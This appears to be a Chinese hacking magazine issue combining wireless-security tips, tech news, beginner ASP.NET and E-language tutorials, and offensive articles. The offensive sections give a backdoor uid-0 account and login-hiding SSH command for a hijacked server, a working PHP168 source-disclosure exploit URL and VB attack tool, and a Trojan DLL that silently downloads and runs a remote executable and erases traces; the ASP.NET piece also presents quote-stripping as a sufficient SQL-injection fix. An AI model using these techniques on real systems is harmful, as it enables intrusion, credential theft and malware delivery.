目前绝大多数的公司及家用无线网络都设置为使用开放式加密的环境，即允许他人可以搜索到该接入点公开的 SSID 标识，这也是无线路由器进行 SSID 广播实现的。但是，这种方式已经被公认为是非常危险的，一些稍有安全意识的人都会关闭 SSID 广播。

如图 14 所示，在 TP-LINK 无线接入点设置页面中将“允许 SSID 广播”前的对钩去除即可关闭 SSID 广播。

对于 Linksys 品牌无线路由器或者其它一些无线厂商而言，则可以在无线设置主配置页上将对应的“Wireless SSID Broadcast”设置为 Disable 即可，如图 15 所示。

在成功修改了无线路由器上的 SSID 设置后，也将需要对所有的合法无线客户端进行预设定。这样，若不属于合法客户端，将无法连接此关闭 SSID 广播的无线路由器。

### 6、配置加密级别为 WPA-PSK

为防止无线网络的连接密码被轻易地从外部暴力破解，应尽可能使用更为高级的加密方式，这里推荐大家使用 WPA-PSK 加密或者更高的 WPA2-PSK 加密模式。WPA-PSK 是提供给没有服务器的家用或中小型企业用户的加密方式，PSK 加密金钥是自动生成的。WPA 设定需要使用者选择使用 TKIP 加密或 AES 加密。WPA 标准默认为指定 TKIP，除此之外还有 AES。这里 TKIP 指的是暂时金钥完整性通讯协议，而 AES 即高级加密标准。AES 是一种基于 802.11i 的最新加密技术，新的 WPA 标准已经全面支持 AES。

为防止无线网络的连接密码被轻易地从外部暴力破解，应尽可能使用更为高级的加密方式，在如图 16 所示的 Belkin 无线路由器无线安全配置页面，我们选择安全模式为 WPA-PSK，将密码设置为 8 位以上，注意应保证一定的复杂性，比如大小写字母+数字的组合，一定不要使用纯数字。

### 7、更换无线路由器天线

为防止无线网络的信号被外界轻易地探测到，应尽可能地减弱原有的无线发射信号，这里可以考虑在无线路由器/AP 配置页面上降低无线设备的天线功率，而对于一些采用 SMA 接口的无线路由器或者接入设备，直接更换原有高增益天线，换成一个低增益的小天线也是个好办法，如图 17 所示，为 SMA 接口的外接天线。

最后，作为探查无线设备的方法依然还有很多，但是本文的目的仅为抛砖引玉以及扩展大家思路。我想，作为无线破解的内容可能到处都是，大家也都看得比较多了，所以以后我会带来更多实用性更强的经验分享。在这里感谢黑手编辑土豆兄的支持，以及西安 Linksys/Belkin 无线设备总代理海源兄弟友情提供的设备支持。希望本文能给大家带来更多的不同想法，以及实际应用上的帮助。

> 编辑点评：我从来没有接触过无线路由，但是也能看懂作者在讲什么，有兴趣的读者可以尝试一下。

歌首诗，不知道大家有没有继续关注 QQ for Linux？风歌可是一一直关注着。结果现在那心是拔凉拔凉的，到本刊出版时，应该差不多就是软件正式发布一周年了，时间经过了这么久，我们的 QQ 从 1.0 版本升级到了 1.0.2，一切还是老样子。只是传收文件，还有当初那个超级低级的权限问题被修正了，还修正得不彻底！QQ for Linux 的出现让我们更坚定地走 Pidgin 道路了。

## Linews

### 1、Google 发布开源插件，将 3D 内容带入浏览器

Google 发布了开源浏览器插件 O3D，提供 JavaScript API 以能在浏览器中显示 3D 图形。Google 希望通过该项目促进 Web 3D 化试验，与 Mozilla、Khronos Group 合作推动 Web 3D 的开放标准。

O3D 目前还处于早期发展阶段，它可用于在浏览器上创造丰富、互动的 3D 应用，使用了 Google 自己的保留模式 API（Retained Mode API），采用了与 Mozilla 类似插件不同的技术实现方法。Google 产品经理 Henry Bridge 和工程主管 Matt Papakipos 称，Google 的 API 最终会与 Mozilla 的 API 统一起来。Google 希望像 SketchUp 和 Google Earth 之类的程序最后能运行在网络空间上。

**风歌点评：** Web 2.0 之后，Web 还会向哪个方向发展？这个我们还不得而知。不过无论怎样，加入 3D 内容是必不可少的，我个人一直认为，Web 3D 是一个很有前景的课题，Google 也正向这方面努力了，相信不久，我们就能看到实质的成绩。

### 2、调查显示 Linux 操作系统使用份额已经突破 1%

Net Applications 4 月份的操作系统市场份额（更精确的说法应该叫使用份额）数据显示，Linux 份额突破了 1%，4 月份的数据比上个月增加 0.12%，达到 1.02%。Windows 比上个月略降 0.24%，至 87.90%，其中 Windows XP 降 0.64% 至 62.21%，Windows Vista 升 0.48% 至 23.90%，Mac 3 月是 9.77%，4 月是 9.73%，基本没什么变动，其中 Mac OS X 10.5 为 6.17%。

浏览器市场，Firefox 市场份额为 22.48%，Internet Explorer 为 66.10%，Safari 为 8.21%，Chrome 为 1.42%（增加），Opera 为 0.68%（下降）。

**风歌点评：** 这是个振奋人心的消息，说明有更多的人开始认可 Linux，这其中上网本功不可没。但就目前而言，Linux 全面普及还有很长的路要走，前途是光明的，但道路依旧曲折啊。

### 3、IE 浏览器 4 月市场份额降 0.72%，火狐持续增长

IE8 现在已经可以通过 Windows Update 升级，但这并没有阻止 IE 市场份额的连续下滑。根据 Net Applications 最新统计显示，截止到四月底，微软 IE 再次下降 0.72 个百分点，又一次创下 10 年来历史新低。与此同时，其主要竞争对手火狐依然保持增长势头。

据估计，IE 浏览器四月份市场份额为 66.10%，而三月份的数据为 66.82%。火狐浏览器持续给予微软压力，其市场份额由上个月的 22.05% 增长到了现在的 22.48%；苹果的 Safari 份额有略微下降，由 8.23% 降至 8.21%，Opera 也从 0.70% 下滑到 0.68%——这是 Net Applications 提供的数据。

**风歌点评：** 了解浏览器市场的人都知道，这其实是必然，物竞天择，IE 靠捆绑来垄断的浏览器江山终于开始在风雨中飘摇。经过最新的测试，IE8 还没有力挽狂澜，却又一次一败涂地。BetaNews 利用浏览器载入时间计时器 WebMonkey 进行了重复测试，最终结果为：当时最新的 Firefox 3.0.7 平均比 IE8 快 13%，尚处于测试阶段的 Firefox 3.1 Beta 3 则快 31%；Firefox 3.5 Beta 4 平均领先幅度达到 81%。面对这些数据，已经无话多言了。

### 4、龙芯 Linux 电脑新获万台政府采购订单

江苏省常熟市政府龙芯电脑首购签约仪式在常熟隆重举行，常熟市政府向江苏龙芯梦兰科技股份有限公司采购龙芯电脑 1 万台，包括龙芯笔记本及龙芯台式机，用于当地中小学数字学生的建设，这是龙芯获得政府采购的第一单。据悉，江苏省 15 万台、全国更大规模的龙芯电脑政府采购正在推进之中。

**风歌点评：** 这是龙芯电脑的第一批订单，其实这算不上什么大事，却足以让我们心里热一把。龙芯在我们的期待中历经了多少磨难，终于成长起来了，怎能让人不为之振奋？希望龙芯一路走好，不要辜负了国人的期望。

## 使用 SSH 做 socket5 代理

从本文您可以学到：

- 如何利用 SSH 做代理

我们在得到 Linux 肉鸡的时候，常用来做什么？不如也用 SSH 做个 Socket5 代理吧，这样以后浏览网站的时候，就能隐藏自己的 IP，如果是国外网段的 Linux 肉鸡的话，还能够绕过 GFW 的限制呢：-）

我假设你已经有了一个 root 权限的 Linux 肉鸡了，其实得到 Linux 肉鸡，有时候并不像你想像中的那么难。说一下我得到这个肉鸡的过程吧，漏洞方面管理员已经补上了，这里就不截图了，说个思路而已。

这个肉鸡是我扫 Tomcat 弱口令的时候扫到的，然后登录后台，部署 WAR 包，得到一个 root 权限的 JSPSHELL。我当时登录到 JSPSHELL 后，使用 `useradd -g 0 -u 0 -o backup` 命令添加了一个用户，然后再执行 `echo backup:minnie|chpasswd` 命令的时候没有成功。因为现在公布出来的 JSPSHELL 好像都不支持管道、重定向操作。无奈，我写了一个添加用户的 bash 脚本，上传到主机，通过 JSPSHELL 来执行，可还是无法成功。

后来我换了一个思路，直接编辑它的 `/etc/shadow` 文件，添加一条我的记录，然后就能使用 ssh 登录主机了。**注意，在用 JSPSHELL 编辑文件的时候，会莫名地多出几行空格，需要我们再次打开文件，手工把空格去掉，这样才会成功。**

好了，现在说一下怎么做 socket5 代理吧，使用 `ssh -D 8898 backup@IP地址` 命令连接到肉鸡，如图 1。

然后打开你的浏览器，设置 socket5 代理，在 Socks 主机那里填入 IP 地址为 `127.0.0.1`，端口为 `8898`，如图 2。

然后在你的火狐浏览器的地址栏输入 `about:config`，在 Filter 那里输入 `network.proxy.socks_remote_dns`，回车，搜索到以后，**把值设置为 true**。这个选项其实做不做都可以，做了的话，代表 DNS 解析在远程代理端；不设置的话，代表 DNS 解析在本地，如图 3。

现在你再用火狐浏览网页的时候，显示的 IP 就是 SSH 肉鸡的 IP 了，而且通信过程是加密的，我们可以抓包验证下，如图 4。

其实 SSH 是很强大的，我这里只是举了一个做 SOCKET 代理的例子，我们的目标如果有肉网的话，你还可以用这个 SSH 服务器做代理，去连接内网，实现本地或者远程的端口转发。具体的使用跟不同的环境有不同的方法，有兴趣的可以 GOOGLE 下“ssh hack”。

希望喜欢渗透，有工具使用心得的朋友和我交流联系，共同进步。

另外说一个在你远程 SSH 到肉鸡时候的隐藏技巧，如图 5，指令如下：

```text
ssh -o UserKnownHostsFile=/dev/null -T root@xx.xx.xx.xx -p22 /bin/bash -i
```

如果用这种方式连接主机，在主机上执行“w”命令将看不到你的连接，指定 `-o` 选项是为了不让对方的 `known_hosts` 文件里留下你的登录记录。

## 编辑点评：

SSH 的文章之前也介绍过，小菜们对 SSH 应该不陌生了，可是你知道 SSH 还可以做代理吗？其实这里 SSH 就充当了一个管道，它的作用还大着呢，是值得认真研究的哦。

## 从 0 开始学习 asp.net（二）

编程源起

图 4ler[H.S.G]

> 张宇讲笑话：一个电脑软件工程师、一个硬件工程师和一个部门经理一起去瑞士参加一个会议。就在他们驾车翻过一座山峰后，沿着陡峭的山路向下行驶时，刹车突然失灵，轿车失去了控制，冲出了路边的护栏。不可以思议的是，这辆车居然奇迹般地停在了山腰上，车上的乘客安然无恙。但问题是，他们与这辆刹车失灵的汽车一起被困在了半山腰上，而天气开始变坏。

> “我知道该怎么办，”硬件工程师说，“我随身带着瑞士军刀，可以把这辆车的刹车系统拆开，找出故障所在，然后修好它。这样我们就可以上路了。”

> “不”，那位经理说，“让我们安排一次会议，先提出议案，再制订计划书，等确定了可达成目标，经过一系列完善后，最终找出一个解决方案，然后我们就可以上路了。”

> “等一等”，软件工程师说，“在采取任何措施之前，为什么我们不把车推回到山顶，看一看故障是否再次发生呢？”

**从本文您可以学到：**

了解 asp.net 中变量、Session 及字符串的处理方式

前面我们了解了一些关于 asp.net 的基础概念，本期让我们来深入地学习和了解这门技术。这次我们将学习到 asp.net 中变量的声明及使用，还有 Session 的使用及 asp.net 中字符串的处理方法。

### 一、asp.net 中变量的声明以及使用

首先我们在 VS2008 中创建一个新的网站，并创建一个服务器控件按钮，这里我们不再重复演示。在设计界面下双击创建的服务器控件按钮即可创建出该按钮的服务端事件，相关代码如下：

```csharp
protected void btnClick_Click(object sender, EventArgs e)
{
    // 这里我们创建了一个字符串的变量
    string str = "www.nohack.cn";
    // 创建一个 int 类型的变量
    int i = 0;
}
```

当然，只声明变量是不够的，还得学会怎样去使用它们。asp.net 中变量大体分为字符串型（string）、整数量（int）及数组等类型，那么我们该怎样来使用这些变量呢？看如下代码即可了解。

```csharp
string str = "www.nohack.cn";
int i = 0;
// 如果 i 等于 0 的话，那么执行下列语句
if (i == 0)
{
    // 以 HTTP 流方式输出变量 str
    Response.Write(str);
    // 输出非 string 类型的变量（执行 ToString 方法进行类型转换）
    Response.Write(i.ToString());
}
else
{
    Response.Write("It's not " + str);
}
```

如需了解更多关于变量的使用及介绍，请翻看 MSDN。

### 二、asp.net 中 Session 的使用方法


众所周知，Session 是 web 应用程序中用于身份认证的重要技术，虽然 Session 看起来很神秘，其实只要了解了它，就会发现它不过是庞大的冰山一角而已。**Session 是用于保持状态的基于 web 服务器的方法。Session 允许通过将对象存储在 web 服务器的内存中，在整个用户会话过程中保持任何对象。**说白了，Session 也就是用于跟踪用户会话的一种手段。再者，Session 是存储在服务器上的，假如客户端关闭了浏览器，那么 Session 将随客户端关闭而丢失。下面是 Session 的操作事件代码：

```csharp
protected void btnClick_Click(object sender, EventArgs e)
{
    // 创建一个 Key 为 Admin 的 Session，它的值为 Admin
    Session["Admin"] = "Admin";
}

protected void btnSession_Click(object sender, EventArgs e)
{
    // 如果 Session["Admin"] 的值不为空的话
    if (Session["Admin"] != null)
    {
        // 将 Session["Admin"] 的值转换为字符串并存入变量 strSession 中
        string strSession = Session["Admin"].ToString();
        // 如果 Session["Admin"] 的值为 Admin 的话，那么输出值，反之输出值不是正确的
        if (strSession == "Admin")
        {
            Response.Write("Session:" + strSession);
        }
        else
        {
            Response.Write("Session Key is not right!");
        }
    }
    else
    {
        // 没有 KEY 为 Admin 的 Session
        Response.Write("Session is empty!");
    }
}

protected void btnExit_Click(object sender, EventArgs e)
{
    // 清空所有 Session
    Session.Clear();
}
```

程序运行效果如图 1 所示。

单击“Click Me”按钮即触发 btnClick_Click 事件，创建 Session 后，再单击“Test Session”按钮触发 btnSession_Click 事件，即可输出 Session 的值，如图 2 所示。

单击“Exit”按钮，再单击“Test Session”，运行效果如图 3 所示。因为单击“Exit”按钮将清空 Session，所以再读取 Session 的话，值就是空的了，这就是 Session 的用法，相信聪明的你应该都明白了吧？


### 三、asp.net 中关于字符串的处理方法

不管在什么开发语言中，字符串的处理绝对是个关键点。其实在任何语言开发的过程中，接触字符串的处理是很频繁的，比如在上传的时候对文件后缀名的判断，在文章管理系统中对文章内容的处理等。下面我们通过 asp.net 中对字符串的截取、替换及拼接来了解字符串在 asp.net 的处理方法。

- 1. 截取

比如一个字符串为“www.nohack.cn”，那么我们怎么样才能取出“nohack”呢？相关代码如下：

```csharp
protected void btnSplit_Click(object sender, EventArgs e)
{
    string str = "www.nohack.cn";
    // new char[] { '.' } 是指创建一个字符数组，数组内容为一个'.'，因为 Split 需要提供一个字符数组作为参数进行截取操作。
    string[] strs = str.Split(new char[] { '.' });
    // 因为返回的是一个字符串数组，而在 asp.net 中数组的索引是从 0 开始，即 strs[0] 是 www，strs[1] 是 nohack
    Response.Write(strs[1]);
}
```

- 2. 替换

比如以前很流行的 `'or'='or'` 漏洞，其实很大一部分是因为没有做好过滤而造成的。解决办法很简单，只需把用户输入的单引号替换为空即可，相关代码如下：

```csharp
protected void btnReplace_Click(object sender, EventArgs e)
{
    // 将文本框的值去掉首尾的空格之后存入 str 变量
    string str = txtInput.Text.Trim();
    // 将 str 变量中的 ' 替换为空，并重新赋值入 str 变量
    str = str.Replace("'", "");
    // 输出 str 变量
    Response.Write(str);
}
```

- 3. 拼接

有时候我们在做字符串拼接操作的时候，特别是使用模板开发的时候，因为会涉及到 HTML 组合之后再输出，这就会遇到高性能的字符串拼接问题。传统的解决办法为采用 StringBuilder 方式进行字符串拼接，适合比较频繁的字符串拼接，可以提高效率。以下是演示代码：

```csharp
protected void btnOldSb_Click(object sender, EventArgs e)
{
    // 声明一字符串并赋值
    string str = "www.nohack.cn";
    // 以 += 运算符累加字符串
    str += " test!";
    str += " just test!";
    Response.Write("Old:" + str);
}
```


需注意的是，使用 StringBuilder 应引入 System.Text 命名空间，直接在头部输入 using System.Text; 即可，如图 4 所示。现在大部分朋友都使用如下代码进行字符串拼接：

```csharp
protected void btnNewSB_Click(object sender, EventArgs e)
{
    // StringBuilder 类，字符串拼接专用，高效率拼接；需引入 System.Text 命名空间
    StringBuilder sb = new StringBuilder();
    // 调用 Append 方法进行拼接组合
    sb.Append("www.nohack.cn");
    sb.Append(" test!");
    sb.Append(" just test!");
    Response.Write("New:" + sb.ToString());
}
```

本文简单地介绍了 asp.net 中变量、Session 及字符串处理的一些方式，这些都是学习 asp.net 必须掌握的基础，之后的文章我们将介绍 ado.net 技术。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘中）

> 编辑点评：简单到不能再简单的程度了，类似于手把手了，还不能掌握的话，可以自己敲打一番啦，哈哈！

## 易语言打造 UPX 加壳小助手

> 图 伤心の雨

从本文您可以学到：

利用易语言实现 UPX 的 SHELL

某日，在机子里乱翻，无意中找到一个 UPX 加壳文件，是命令行模式的，感觉用起来特不方便。刚好自己最近又在学易语言，就亲手操刀编了一个可视化的 UPX 加壳小助手！

## 快码加鞭·编程源起


| 拖放对象1.1 注册拖放控件（已跨窗口，取窗口句柄（）） |
|---|
| 子程序名 | 返回值类型 | 公开 | 备注 |
| 拖放对象1_得到文件 |  |  |  |
| 参数名 | 类型 | 参考 | 可空 | 数组 | 备注 |
| 接收到的文本路径 | 文本型 |  |  |  |  |

编程框1.内容 = 接收到的文本路径

| 子程序名 | 返回值类型 | 公开 | 备注 |
|---|---|---|---|
| 关于UPX加壳小助手_被选择 |  |  |  |
| 载入（窗口1，真） |  |  |  |

压缩、较好压缩及文件备份。好了，下面就来用易语言设计我们的 UPX 加壳界面吧，如图 1 所示。

设计很简单，就 1 个编辑框、4 个按钮、1 个选择框、2 个单选框、1 个拖放控件、1 个通用对话框及几个标签。

首先我们来加载资源文件，选择“插入”菜单中的“资源”，将 UPX.EXE 文件进行加载，运行程序的时候，再释放出来。接着设计“打开选择要加壳文件”的通用对话框，代码如下：

```e
子程序 _按钮1_被单击
通用对话框1.打开 ()
编辑框1.内容 = 通用对话框1.文件名
```

为了加壳的方便，最好还要支持拖放，这就要用到拖放控件了，代码如图 2 所示。

下面就是加壳过程的关键代码了，如图 3 所示。

最后加上帮助，载入一个说明窗口，代码如图 4 所示。

好了，现在运行一下，如图 5 所示。

经过测试，可以正常加壳，如图 6 所示。

但经过测试发现，如果文件在桌面的话，加壳将会失败，而在 C、D 等盘都没有问题。最后经过检查，原来是 UPX 的问题，大家可以试试看。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘中）

> **编辑点评：** 在桌面失败的原因很可能是路径中包含空格，而 UPX 不支持造成的，可以在程序中获取的路径前后加上引号来解决。


## 分析和编写 PHP168 文件源码泄漏工具

□ 米海【LOVEGN】（安天团队）

从本文您可以学到：利用 VB 简单编写特定漏洞利用工具

今天在团队 QQ 群中看到 Men_Si 发来的 PHP168 文件源码泄漏工具，但很多朋友都不知道如何利用，而网上的东西也是东拼西凑。在这里鄙视下不保留完整信息的转载者，让小菜们不好分析。在这里，我就和小菜们一起来分析下，只有弄明白了漏洞的原因，才能有所提高。然后根据分析写出自己的漏洞利用工具，让自己很有成就感。

## 快码加鞭：编程源起

先来分析产生漏洞的源码，漏洞文件是 upfile.php，相关代码如下，重要的加了注释，大家应该都能够看懂：

```php
if($postfile)
{
    if(!ereg("[^0-9a-z_./]", $dir) || !ereg("^/", $dir)) {
        $dir="other";
    }
    $array[name]=is_array($postfile)?$_FILES[postfile][name]:$postfile_name;
    // 如果 postfile 是数组，那么 $array[name] 就是上传的文件名。如果 postfile 不是数组，那么 $array[name] 就是 $postfile_name
    $array[path]=$webdb[updir]."/".$dir;   // 最终保存文件的路径
    $array[size]=is_array($postfile)?$_FILES[postfile][size]:$postfile_size;
    $array[updateTable]='';
    $filename=upfile(is_array($postfile)?$_FILES[postfile][tmp_name]:$postfile,$array);
}
```

上面的代码只要 $postfile 存在，且不为数组，我们就可以为 $postfile、$postfile_name 及 $postfile_size 赋值。那么下面再接着看看 upfile 这个函数，看到底是什么漏洞，相关代码如下：

```php
function upfile($upfile, $array){
    global $db,$lfjuid,$pre,$webdb,$groupdb,$lfjdb;
    $filename=$array[name];    // 获得上传文件名，该 filename 获得的是 postfile_name 的变形
    $FY=strtolower(strrchr(basename($upfile),'.'));
    if($FY&&$FY!='.tmp'){
        die('上传文件有误!');
    }
    $path=makepath(PHP168_PATH,$array[path]);
    $size=abs($array[size]);
    $filetype=strtolower(strrchr($filename,'.'));   // 获得文件的扩展名
    $oldname=preg_replace('/(.*)\.[^.]+$/is','\\1',$filename);
    if(ereg('([.]jpg|png|gif)$',$filetype)){
        // 当文件的扩展名为 jpg、png、gif 时才可以上传
        $tempname="{$lfjuid}_".date('YmdHms_',time()).rands(5).$filetype;
    }else{
        $tempname="{$lfjuid}_".date('YmdHms_',time()).base64_encode(urlencode($oldname)).$filetype;
    }
    $newfile="$path/$tempname";
    if(@move_uploaded_file($upfile,$newfile)){   // 将 upfile 文件移动到目的地址，其实也就是完成最后的上传文件功能
        @chmod($newfile,0777);
        $ck=2;
    }
}
```

upfile 这个变量我们完全可以用 postfile 来控制，而扩展名的绕过就可以用 postfile_name，这样漏洞就产生了，我们将 postfile 文件当成图片格式来保存了。

在本地直接构造提交页面，提交地址为 `http://www.xxx.com/upfile.php?postfile=php168/mysql_config.php&p_h_p_&_postfile_name=images/default/logo.gif&postfile_size=222`，其中 postfile 也可以为任意 php 文件，而且提交成功后有地址返回，然后通过访问该地址就可以看到 mysql_config.php 的文件内容。很简单吧？

既然原理明白了，那就一起来写自己的漏洞利用工具吧。本想用 php 写，但由于该上传功能只有登录用户才可以使用，避免大家抓包拿 cookie，还是用最简单的 VB 来编写。这里只贴出主要代码，并加上分析，程序需要三个按钮控件：注册用户、上传文件触发漏洞及访问泄露代码的文件。

```vb
Private Sub Command1_Click()    ' 上传文件，触发漏洞
    ShellExecute hwnd, "open", "http://" + Text2.Text + "/reg.php", vbNullString, vbNullString, vbNormalFocus
    WebBrowser1.Navigate "http://" + Text2.Text + "/reg.php"
End Sub
```

```vb
Dim str As String
Dim upfilename As String    ' 要查询文件的文件名
Dim poststr As String       ' 提交的字符串

On Error Resume Next
upfilename = Text3.Text
str = "upfile.php?postfile=" + upfilename + "&postfile_name=images/default/logo.gif&postfile_size=222"
poststr = Text2.Text + "/" + str
rethtml = Inet1.OpenURL(poststr)   ' 向服务器提交数据；其中 ret 是服务器的返回信息
If rethtml <> "" Then
    ' 分离出上传文件的文件名
    Dim lovegn_start
    lovegn_search = "other/"
    lovegn_start = InStr(rethtml, lovegn_search)
    MsgBox lovegn_start
    lovegn_explode = Len(rethtml) - lovegn_start + 1
    lovegn_explode1 = Right(rethtml, lovegn_explode)
    lovegn_des = Split(lovegn_explode1, "<")(1)
    If lovegn_des <> "" Then
        Command3.Enabled = True
    End If
Else
    MsgBox "服务器没有返回数据"
End If
End Sub

Private Sub Command3_Click()    ' 爆出文件的内容
    Dim poststr
    poststr = Text2.Text + "/upload_files/" + lovegn_des
    WebBrowser1.Navigate poststr
    Command3.Enabled = False
End Sub

Private Sub Form_Load()
    Text2.Text = "http://blog.ibk528.com"
    Text3.Text = "php168/mysql_config.php"
    Command3.Enabled = False
    WebBrowser1.Navigate Text2.Text
End Sub
```

工具编写好后就要进行测试了，实践才是检验工具的最好方法。由于这篇文章写得比较晚，估计漏洞都补得差不多了，我找了一个小时左右才找到一个可以利用的网站，大家可以看看效果，如图 1。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘中）

**编辑点评：**
VB 的确是编写可视化程序的最简工具，几步拼装就可以完成，大家不妨试试。


## 关于 DLL 模块加载规则在入侵中运用的一点思路

□ Allen_HW[江苏大学计算机（网络）系]

## 编程上路

从本文您可以学到：

- 利用系统加载文件时的查找方式来加载自己的 DLL

首先声明：技术并非原创，只是写一些我自己的理解而已，希望能给刚入门的朋友一些帮助。

Windows 进程对于 DLL 模块的加载有着自己的一套规则，下面就让我们一起来认识一下这些规则。首先认识一个重要的函数，代码如下：

```c
HINSTANCE LoadLibraryEx(
    PCTSTR pszDLLPathName,
    HANDLE hFile,
    DWORD dwFlags
);
```

LoadLibraryEx 函数配有两个辅助参数，即 hFile 和 dwFlags。参数 hFile 保留供将来使用，现在必须是 NULL。对于参数 dwFlags，必须将它设置为 0，或者设置为 DONT_RESOLVE_DLL_REFERENCES、LOAD_LIBRARY_AS_DATAFILE 和 LOAD_WITH_ALTERED_SEARCH_PATH 等标志的一个组合。LOAD_WITH_ALTERED_SEARCH_PATH 标志用于改变 LoadLibraryEx 查找特定的 DLL 文件时使用的搜索算法。

通常情况下，LoadLibraryEx 按照下面的顺序来进行搜索文件：

- 1. 包含可执行映像文件的目录；
- 2. 进程的当前目录；
- 3. Windows 系统目录；
- 4. Windows 目录；
- 5. PATH 环境变量中列出的各个目录。

但如果设定了 LOAD_WITH_ALTERED_SEARCH_PATH 标志，那么 LoadLibraryEx 函数就按照下面的顺序来搜索文件：

- 1. pszDLLPathName 参数中设定的目录；
- 2. 进程的当前目录；
- 3. Windows 的系统目录；
- 4. Windows 目录；
- 5. PATH 环境变量中列出的目录。

在这插一句，PATH 环境变量可以在注册表中修改，这也是一种不错的 DLL 注入方式。

大家可以很清楚地注意到一点，不管是什么方法，对于进程，当前目录的 DLL 文件总会在 Windows 的系统目录之前加载。那么我们是不是可以利用这个原理来对一些信任的进程进行代码的注入呢？在 Windows 核心编程中，把这种 DLL 利用称之为特洛伊 DLL。

**插入 DLL 的另一种方法是取代你知道进程将要加载的 DLL。**

例如，如果你知道一个进程将要加载 Xyz.dll，就可以创建你自己的 DLL，为它赋予相同的文件名。当然，你必须将原来的 Xyz.dll 改为别的什么名字。

**在你的 Xyz.dll 中，输出的全部符号必须与原始的 Xyz.dll 输出的符号相同。** 使用函数转发器，很容易做到这一点。

虽然函数转发器使你能够非常容易地挂接某些函数，你应该避免使用这种方法，因为它不具备版本升级能力。例如，如果你取代了一个系统 DLL，而 Microsoft 在将来增加了一些新函数，那么你的 DLL 将不具备它们的函数转发器，引用这些新函数的应用程序将无法加载和执行。

如果你只想在单个应用程序中使用这种方法，那么可以为你的 DLL 赋予一个独一无二的名字，并改变应用程序的 .exe 模块的输入节。更重要的是，输入节只包含模块需要的 DLL 的名字，你可以仔细搜索文件中的这个输入节，并且将它改变，使加载程序加载你的 DLL。这种方法相当不错，但是必须要非常熟悉 .exe 和 DLL 文件的格式。

我的主体思想就是重写一个系统的 DLL，并放入要进行插入程序的目录。这样，当这个程序被启动时，就会连带加载我们重写的 DLL，那么就可以做很多事了。

下面我就以下载者的形式给出示例代码，首先要重写一个 DLL，我选择 ws2help.dll。为了不占版面，我就只贴出其中部分函数：

```c
WahCloseApcHelper                     @1
WahCloseHandleHelper                  @2
................................
WahRemoveHandleContext               @22
WahWaitForNotification               @23
```

需要在一个 ws2help.h 中对这 23 个函数进行重写，这是个体力活，我会给出这个重写的头文件，版本为 VS2003，仅供参考。

主体 DLL 文件代码如下：

```c
#include "ws2help.h"
#include <windows.h>
#include <wininet.h>
#pragma comment(lib, "wininet.lib")

void Start();

char *chrUrl[100] = "####################..."; // 下载地址
char SaveTo[50] = "C:\\Allen_HW.exe";

BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Init();
        CreateThread(NULL, NULL,
            (LPTHREAD_START_ROUTINE)Start, NULL, NULL, NULL);
        break;
    case DLL_PROCESS_DETACH:
        Deinit();
        break;
    default:
        break;
    }
    return TRUE;
}
// 相信以上代码不用我解释太多吧^_^
```

```c
void Start()
{
    DWORD byteread = 0;
    char buffer[100];
    BOOL hWrite;
    DWORD written;
    HANDLE hFile = 0;
    memset(buffer, 0, 100);

    // 利用 wininet 函数进行文件的下载
    HANDLE hInternetOpen = InternetOpen("PassMinDLL",
        INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);
    HANDLE hInternetOpenUrl = InternetOpenUrl(hInternetOpen, chrUrl,
        NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hInternetOpenUrl != NULL)
    {
        InternetCloseHandle(hInternetOpen);
        STARTUPINFO si;
        memset(&si, 0, sizeof(STARTUPINFO));
        si.cb = sizeof(STARTUPINFO);
        si.wShowWindow = SW_SHOW;
        PROCESS_INFORMATION pi;
        CreateProcess(NULL, SaveTo, NULL, NULL, FALSE, 0, NULL,
            NULL, &si, &pi);

        hFile = CreateFile(SaveTo, GENERIC_WRITE, 0, 0, CREATE_ALWAYS,
            FILE_ATTRIBUTE_NORMAL, 0);
        if (hFile == INVALID_HANDLE_VALUE)
            InternetCloseHandle(hInternetOpenUrl);
        while (1)    // 循环读取写入文件
        {
            BOOL hInternetReadFile = InternetReadFile(hInternetOpenUrl,
                buffer, sizeof(buffer), &byteread);
            if (byteread == 0) break;
            hWrite = WriteFile(hFile, buffer, sizeof(buffer), &written,
                NULL);
            if (hWrite == 0) break;
        }
        CloseHandle(hFile);
        InternetCloseHandle(hInternetOpenUrl);
        InternetCloseHandle(hInternetOpen);
        STARTUPINFO si;
        memset(&si, 0, sizeof(STARTUPINFO));
        si.cb = sizeof(STARTUPINFO);
        si.wShowWindow = SW_SHOW;
        PROCESS_INFORMATION pi;
        CreateProcess(NULL, SaveTo, NULL, NULL, FALSE, 0, NULL, NULL,
            &si, &pi);
    }
}
```

MAIN 函数核心代码：

```c
if (RegOpenKeyEx(HKEY_CLASSES_ROOT, NULL, &hkRoot) != ERROR_SUCCESS)
{
    // 通过注册表实现获取 IE 路径
    if (RegOpenKeyEx(hkRoot, "htmlfile\\shell\\open\\command", 0,
        KEY_ALL_ACCESS, &hSubKey) == ERROR_SUCCESS)
    {
        RegEnumValue(hSubKey, 0, ValueName, &cbValueName, NULL,
            &dwType, (unsigned char *)&chrIEPath, &cbDataValue);
        // 注册表项枚举函数
    }
    RegCloseKey(hSubKey);
    RegCloseKey(hkRoot);

    char chrDLLPath[MAX_PATH];
    lstrcpy(chrDLLPath, chrIEPath);
    *(strrchr(chrDLLPath, '\\')) = 0x00;
    lstrcat(chrDLLPath, "\\ws2help.dll");
    char *ps = strrchr(chrDLLPath, '\\') + 1;
    // 获取释放路径
    ReleaseDLL(ps);   // 释放动态链接库
    char *pStart = strrchr(chrIEPath, '\\') + 1;
    *strchr(pStart, '"') = 0x00;
    CreateIE(pStart);
    // 创建 IE 进程，这里对进程的存活时间稍加控制，可以增加隐蔽性
    while (DeleteFile(ps) != TRUE);
}
```

```c
Suicide(ps); // 清场、呵呵！

DWORD WINAPI CreateIE(char *chrIEPath)
{
    lstrcat(chrIEPath, " -nohome");
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE;
    CreateProcess(0, chrIEPath, 0, 0, 0, 0, 0, 0, &si, &pi);
    WaitForSingleObject(pi.hProcess, 20000); // 打开 IE 进程 20 秒
    TerminateProcess(pi.hProcess, 0);
    return 0;
}
```

